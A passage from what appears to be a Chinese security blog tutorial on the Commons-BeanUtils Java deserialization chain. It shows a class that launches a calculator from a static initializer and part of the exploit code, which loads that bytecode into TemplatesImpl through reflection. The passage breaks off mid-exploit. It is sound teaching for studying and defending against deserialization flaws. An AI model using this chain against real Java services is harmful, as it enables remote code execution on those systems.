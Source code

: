`_tfactory` 需要是一个 `TransformerFactoryImpl` 对象，因为 `TemplatesImpl#defineTransletClasses()` 方法里有调用到 `_tfactory.getExternalExtensionsMap()` ，如果是 null 会出错。

TemplatesBytes.class 这里是一个弹计算器的恶意类，代码如下

JAVA

```
package src.DynamicClassLoader.URLClassLoader;  
  
import java.io.IOException;  
  
// 弹计算器的万能类  
public class Calc {  
    static {  
        try {  
            Runtime.getRuntime().exec("calc");  
 } catch (IOException e){  
            e.printStackTrace();  
 }  
    }  
}
```

弹计算器成功

![img](https://drun1baby.top/2022/07/12/CommonsBeanUtils%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/TemplatesImplSuccess.png)

### 2. 中间 EXP 编写

因为中间链子比较短，这里就直接写整段 EXP 了

在写 EXP 之前，我们先好好看一看 `BeanComparator.compare()` 方法：

![img](https://drun1baby.top/2022/07/12/CommonsBeanUtils%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/compare.png)

这个方法传入两个对象，如果 this.property 为空，则直接比较这两个对象；如果 this.property 不为空，则用 PropertyUtils.getProperty 分别取这两个对象的 this.property 属性，比较属性的值。

所以如果需要传值比较，肯定是需要新建一个 `PriorityQueue` 的队列，并让其有 2 个值进行比较。而且 `PriorityQueue` 的构造函数当中就包含了一个比较器。

![img](https://drun1baby.top/2022/07/12/CommonsBeanUtils%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/PriorityConstructor.png)

我们的 EXP 如下，最后使用 queue.add 就可以自动完成比较是因为 add 方法调用了 compare 方法，如图。

![img](https://drun1baby.top/2022/07/12/CommonsBeanUtils%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/Route.png)

JAVA

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.beanutils.BeanComparator;  
import org.apache.commons.beanutils.PropertyUtils;  
  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.PriorityQueue;  
  
public class CommonBeans1EXP {  
    public static void main(String[] args) throws Exception{  
        byte[] code = Files.readAllBytes(Paths.get("E:\\JavaClass\\TemplatesBytes.class"));  
 TemplatesImpl templates = new TemplatesImpl();  
 setFieldValue(templates, "_name", "Calc");  
 setFieldValue(templates, "_bytecodes", new byte[][] {code});  
 setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());  
 //    templates.newTransformer();  
```